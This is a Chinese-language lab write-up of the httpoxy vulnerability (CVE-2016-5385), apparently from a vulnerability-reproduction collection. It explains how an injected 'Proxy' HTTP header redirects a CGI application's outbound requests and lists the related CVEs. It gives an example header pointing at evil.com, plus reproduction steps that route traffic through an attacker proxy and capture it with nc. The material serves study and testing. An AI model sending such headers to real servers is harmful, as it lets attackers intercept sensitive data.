



# CGI 应用环境变量注入漏洞（CVE-2016-5385）

根据 RFC 3875 规定，CGI（fastcgi）要将用户传入的所有 HTTP 头都加上 `HTTP_` 前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的 `HTTP_PROXY` 值作为 HTTP 代理地址。于是，恶意用户通过提交 `Proxy: http://evil.com` 这样的 HTTP 头，将使用缺陷类库的网站的代理设置为 `http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24 版本修复了该漏洞，不会再将 `Proxy` 放入环境变量中。本环境使用 PHP 5.6.23 为例。

当然，该漏洞不止影响 PHP，所有以 CGI 或 Fastcgi 运行的程序理论上都受到影响。CVE-2016-5385 是 PHP 的 CVE，HTTPoxy 所有的 CVE 编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 环境搭建

启动一个基于 PHP 5.6.23 + GuzzleHttp 6.2.0 的应用：

```
docker compose up -d
```

Web 页面原始代码：[index.php](www/index.php)

## 漏洞复现

正常请求 `http://your-ip:8080/index.php`，可见其 Origin 为当前请求的服务器，二者 IP 相等：



在其他地方启动一个可以正常使用的 http 代理，如 `http://*.*.122.65:8888/`。

附带 `Proxy: http://*.*.122.65:8888/` 头，再次访问 `http://your-ip:8080/index.php`：



如上图，可见此时的 Origin 已经变成 `*.*.122.65`，也就是说真正进行 HTTP 访问的服务器是 `*.*.122.65`，也就是说 `*.*.122.65` 已经将正常的 HTTP 请求代理了。

在 `*.*.122.65` 上使用 NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：


